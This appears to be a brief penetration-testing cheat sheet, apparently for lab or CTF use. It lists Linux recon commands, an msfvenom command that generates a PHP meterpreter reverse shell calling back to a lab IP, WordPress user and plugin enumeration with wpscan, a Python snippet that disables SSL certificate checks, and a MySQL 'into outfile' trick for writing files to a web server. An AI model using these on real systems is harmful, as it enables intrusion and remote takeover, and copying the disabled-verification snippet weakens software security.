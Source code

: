 #Privilege Escalation
	1. uname -a
	2. cat /etc/*release*
	3. cat /etc/lsb-release

#Bind Shells


#Reverse Shells

#Reverse Shells using metasploit

  1. msfvenom -p php/meterpreter/reverse_tcp LHOST=10.0.2.4 LPORT=1337 -e php/base64 > shell.php
      append <?php ?> in the shell.php file

#Wordpress Scanning
	1. wpscan --url https://10.0.2.9:12038/blogblog --enumerate uvp
    u : enumerate usernames 
    vp : vulnerable plugins
    
#Changing a python urllib2.urlopen method to work with ssl

	1. 
		import ssl 
		ctx = ssl.create_default_context()
		ctx.check_hostname = False
		ctx.verify_mode = ssl.CERT_NONE

		urllib2.urlopen(----- , context = ctx)

#After getting access to mysql command line remotely

	1. Creating a file onto the remote server
		mysql> select "baba" into outfile "/var/www/html/somepath/wp-content/uploads/test.txt";
    
